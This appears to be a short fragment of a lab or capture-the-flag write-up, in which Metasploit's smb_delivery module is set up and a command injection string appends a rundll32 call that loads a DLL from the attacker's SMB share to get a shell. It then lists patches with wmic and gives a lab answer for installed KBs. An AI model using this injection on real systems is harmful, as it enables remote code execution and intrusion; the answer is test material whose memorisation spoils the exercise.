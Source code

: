 ```
sudo msfconsole
search smb_delivery
use 0
set LHOST 10.10.15.5
set SRVHOST 10.10.15.5
run
```

Command Injection: 10.10.15.5 && rundll32.exe \\10.10.15.5\TOESS\test.dll,0

```
shell
wmic qfe
```

**Which two KBs are installed on the target system? (Answer format: 3210000&3210060)
3199986&3200970

**Find the password for the ldapadmin account somewhere on the system.
```

```
